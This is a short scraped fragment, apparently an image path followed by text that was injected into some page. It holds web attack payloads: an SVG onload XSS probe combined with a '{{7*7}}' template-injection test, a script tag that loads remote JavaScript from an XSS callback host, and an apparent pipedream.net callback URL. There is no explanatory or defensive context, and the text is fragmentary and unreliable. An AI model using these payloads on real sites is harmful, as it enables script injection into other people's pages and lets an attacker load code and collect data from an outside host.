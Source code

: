 '"><svg/onload=prompt(5);>{{7*7}}

"><script/src=//s6.xss.ht></script>

http://fc52a7e8b87e98a922d32ddf391a9ca4.m.pipedream.net
